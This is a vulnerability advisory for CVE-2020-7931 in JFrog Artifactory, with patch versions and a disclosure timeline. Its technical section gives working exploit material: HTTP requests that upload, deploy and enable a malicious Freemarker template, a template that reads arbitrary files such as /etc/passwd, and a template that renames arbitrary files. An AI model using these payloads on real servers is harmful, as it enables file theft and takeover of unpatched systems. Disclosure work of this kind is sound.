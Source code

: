 # JFrog Artifactory Insecure Freemarker Template Execution


## Vendors

* JFrog


## Affected Products

* JFrog Artifactory (6.10.1 tested, other versions are also affected)


## Summary

JFrog Artifactory allows an authenticated attacker to upload, deploy, and execute Freemarker templates. A malicious Freemarker template can execute sensitive Java functions due to the use of the DefaultObjectWrapper class within Artifactory. An attacker can leverage this to read and write arbitrary files on the Artifactory instance.


## Mitigation

* JFrog has released a patch for the following versions: 5.11.8 | 6.1.6 | 6.3.9 | 6.7.8 | 6.8.17 | 6.9.6 | 6.10.9 | 6.11.7 | 6.12.3 | 6.13.2 | 6.14.2 | 6.15.1 | 6.16.0


## Credit

This issue was identified by Ryan Hanson of Atredis Partners


## References

 * CVE-2020-7931


## Report Timeline

2019-09-20: Atredis Partners contacted the Apache Freemarker project to determine if this behavior was known and reported a similar issue in their demo application.

2019-09-25: Apache Freemarker resolved this issue in their demo application and recommends use of SimpleObjectWrapper instead of DefaultObjectWrapper going forward.

2019-10-25: Atredis Partners provided details of this issue to JFrog as it applies to the Artifactory product.

2019-12-09: Atredis Partners provided a copy of this advisory to CERT/CC and an update to JFrog.

2019-12-10: JFrog responded with information about available patches for this issue.

2020-01-23: Atredis Partners published this advisory.


## Technical Details

JFrog allows unauthenticated users to execute Freemarker templates that have been deployed and marked as filtered resources. This can be abused to read and write files on the filesystem of the Artfactory server. 

These attacks work by reusing Java objects that are within scope of the template. 

To read a file, the template first accesses the security object exposed by Artifactory and then traverses the object tree to gain access to a URI and URL object, which are then used to get the contents of a file. This can be represented with a single line: 

```
security.getClass().getProtectionDomain().getClassLoader().getURLs()[0].toURI().resolve('/etc/passwd').toURL().getContent()
```

To demonstrate the file read attack, a malicious Freemarker template must first be uploaded:

```
POST /artifactory/ui/artifact/upload HTTP/1.1
Host: 192.168.1.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
X-Requested-With: artUI
X-ARTIFACTORY-REPOTYPE: Maven
Content-Type: multipart/form-data; boundary=---------------------------929091233030188921154790807
Content-Length: 933
Cookie: SESSION=efaeadf4-3e9b-4a94-bcfe-2bc9c17c4a7d
Connection: close

-----------------------------929091233030188921154790807
Content-Disposition: form-data; name="file"; filename="ssti.xml"
Content-Type: text/xml

<#attempt>
    <#assign filename=request.getParameter("filename")>
    <#assign protected_domain=security.getClass().getProtectionDomain()>
    <#assign urls=protected_domain.getClassLoader().getURLs()>
    <#assign file_url=urls[0].toURI().resolve(filename).toURL()>
    <#assign file_content=file_url.getContent()>
print("".join([<#list 0..999999999 as _><#assign byte=file_content.read()><#if byte == -1><#break></#if>chr(${byte}), </#list>]))
<#recover>
print("Failed to read ${filename}")
</#attempt>
-----------------------------929091233030188921154790807--
```

The next request deploys the uploaded file:

```
POST /artifactory/ui/artifact/deploy HTTP/1.1
Host: 192.168.1.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Referer: http://192.168.1.1:8081/artifactory/webapp/
Content-Type: application/json;charset=utf-8
Request-Agent: artifactoryUI
X-Requested-With: artUI
Content-Length: 308
Cookie: SESSION=efaeadf4-3e9b-4a94-bcfe-2bc9c17c4a7d
Connection: close

{"action":"deploy","unitInfo":{"artifactType":"base","path":"/ssti.xml","mavenArtifact":false,"valid":true,"origArtifactType":"base","debianArtifact":false,"vagrantArtifact":false,"composerArtifact":false,"cranArtifact":false,"bundle":false,"type":"xml"},"fileName":"ssti.xml","repoKey":"libs-release-local"}
```

The deployed artifact is marked as a filtered resource, which will cause Artifactory to use the Freemarker template engine to process it:

```
POST /artifactory/ui/filteredResource?setFiltered=true HTTP/1.1
Host: 192.168.1.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Referer: http://192.168.1.1:8081/artifactory/webapp/ 
Content-Type: application/json;charset=utf-8
Request-Agent: artifactoryUI
X-Requested-With: artUI
Content-Length: 50
Cookie: SESSION=efaeadf4-3e9b-4a94-bcfe-2bc9c17c4a7d
Connection: close

{"repoKey":"libs-release-local","path":"ssti.xml"}
```

Finally, a request to `/artifactory/libs-release-local/ssti.xml?filename=/etc/passwd` is used to return the contents of the file or folder passed in the filename parameter. 

In addition to a file read, an attacker can also use this to create a File object with an arbitrary path if the web application is running in Tomcat's Catalina servlet container, which is the case with Artifactory. After creating two File objects, the `renameTo()` method can be used to move the file to an arbitrary location. 

The template below demonstrates use of the `renameTo()` method:

```
<#assign protected_domain=security.getClass().getProtectionDomain()>
<#assign loader=protected_domain.getClassLoader()>
<#assign root=loader.getResources()>
<#assign context=root.getContext()>
<#assign host=context.getParent()>
<#assign orig_appbase=host.getAppBaseFile()>

${host.setAppBase("/opt/jfrog/artifactory/README.txt")} 
<#assign source_file=host.getAppBaseFile()>

${host.setAppBase("/opt/jfrog/artifactory/README2.txt")} 
<#assign dest_file=host.getAppBaseFile()>

orig: ${orig_appbase}
source_file: ${source_file}
dest_file: ${dest_file}
renamed?: ${source_file.renameTo(dest_file)?string}
restoring... ${host.setAppBase(orig_appbase?string)}
restored: ${host.getAppBaseFile()}
```

The template above works by traversing the object hierarchy to gain access to the `org.apache.catalina.core.StandardHost` object and then converting a string to a File by first calling `setAppBase()` with the string and then accessing the File object by calling `getAppBaseFile()`. This allows for a source and destination file to be created and used in a call to `renameTo()`. In this case it simply renames the `README.txt` file to `README2.txt`, but this can also be used by an attacker to compromise the Artifactory server, by rewriting `.ssh/authorized_keys` or another sensitive file.
